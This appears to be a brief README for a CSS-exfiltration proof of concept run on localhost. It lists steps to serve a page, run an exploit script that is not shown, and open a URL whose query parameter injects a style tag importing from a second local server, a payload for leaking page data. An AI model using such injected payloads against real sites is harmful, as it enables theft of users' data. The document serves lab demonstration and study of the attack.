 # CSS-Exfiltration

1. Run the code with:
```
python3 -m http.server
```
2. run the exploit;
```
nodejs exploit.js
```
3. Open the link with exploit:
```
http://localhost:8000/?input=%3Ch1%3E%3C/h1%3E%3Cstyle%3E@import%20%27//localhost:3000/start%27;%3C/style%3E
```